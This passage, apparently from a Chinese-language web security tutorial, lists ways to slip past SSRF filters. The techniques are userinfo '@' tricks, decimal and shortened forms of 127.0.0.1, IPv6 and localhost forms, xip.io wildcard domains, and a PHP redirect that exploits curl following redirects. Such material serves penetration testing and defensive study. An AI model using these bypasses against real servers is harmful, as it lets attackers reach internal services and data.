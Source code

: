 例如：
```
http://baidu.com@127.0.0.1:10080/abc/xxx.php
```

#### 2. 域名绕过

用域名代替IP。

#### 3. 其他形式的IP地址

- 十进制
```
http://2130706433/
相当于
http://127.0.0.1/
```

- 缩略
```
http://127.1/
```

- localhost
- \[::\]:80
- 短链接

#### 4. 指向任意IP的xip.io

xip.io是一个可以指向任意IP的域名，以下都相当于10.0.0.1

- 10.0.0.1.xip.io
- www.10.0.0.1.xip.io
- mysite.10.0.01.xip.io
- foo.bar.10.0.0.1.xip.io



## 0x0e 绕过scheme限制

curl如果允许重定向

```
curl_setopt($curlobj, CURLOPT_FOLLOWLOCATION,1);
```

可通过header函数来重定向页面

```php
<?php
    header("Location: http://1.1.1.1/");
?>
```

